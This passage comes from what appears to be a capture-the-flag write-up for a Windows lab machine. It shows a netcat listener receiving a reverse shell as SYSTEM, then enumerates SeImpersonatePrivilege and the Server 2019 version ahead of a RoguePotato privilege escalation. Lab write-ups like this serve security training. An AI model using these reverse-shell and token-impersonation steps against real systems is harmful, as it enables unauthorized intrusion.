 
The job will hang when it gets to the stage shellz:

![image-20200823065409269](https://0xdfimages.gitlab.io/img/image-20200823065409269.png)

Over at my `nc` listener, I have a shell as system:

    
    
    root@kali# rlwrap nc -lvnp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.203.
    Ncat: Connection from 10.10.10.203:54104.
    Microsoft Windows [Version 10.0.17763.1282]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    W:\agents\agent11\_work\13\s>whoami
    nt authority\system
    

## Beyond Root - RoguePotato

### Enumeration

In my first shell, the IIS user has `SeImpersonatePrivilege`:

    
    
    c:\windows\system32\inetsrv>whoami /priv
    
    PRIVILEGES INFORMATION
    ----------------------
    
    Privilege Name                Description                               State   
    ============================= ========================================= ========
    SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
    SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
    SeAuditPrivilege              Generate security audits                  Disabled
    SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
    SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
    SeCreateGlobalPrivilege       Create global objects                     Enabled 
    SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
    

Up until Server 2019, this would be a great scenario for
[JuicyPotato](https://github.com/decoder-it/juicy-potato). But Microsoft made
changes that broke JuicyPotato.

This box is running Windows Server 2019:

    
    
    c:\windows\system32\inetsrv>systeminfo
                                                                                                 
    Host Name:                 WORKER                                                                                                                                                          
    OS Name:                   Microsoft Windows Server 2019 Standard
    OS Version:                10.0.17763 N/A Build 17763
    OS Manufacturer:           Microsoft Corporation
    OS Configuration:          Standalone Server
    OS Build Type:             Multiprocessor Free
    ...[snip]...
    